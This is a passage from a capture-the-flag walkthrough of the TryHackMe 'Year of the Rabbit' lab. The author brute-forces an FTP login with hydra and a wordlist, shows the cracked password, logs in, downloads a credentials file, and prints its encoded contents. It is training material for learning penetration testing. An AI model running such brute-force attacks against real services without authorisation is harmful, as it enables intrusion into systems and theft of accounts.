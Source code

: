 The username is `ftpuser` but the password is one of the strings. I used `hydra` to brute-force the ftp password. Save the strings in a file and start the brute-force attack:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ hydra -l ftpuser -P ./ftpwordlist.txt ftp://$IP/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-07 04:20:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.115.76:21/
[21][ftp] host: 10.10.115.76   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
~~~

Great! We got the password. Let's log into the ftp service using the creds:
* Username: `ftpuser`
* Password: `5iez1wGXKfPKQ`

There is one file in there named `Eli\'s_Creds.txt`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ ftp $IP                                                     
Connected to 10.10.115.76.
220 (vsFTPd 3.0.2)
Name (10.10.115.76:user): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00 secs (10.1815 MB/s)
ftp> exit
221 Goodbye.
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Year_of_the_Rabbit/files]
└─$ cat Eli\'s_Creds.txt                          
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
~~~
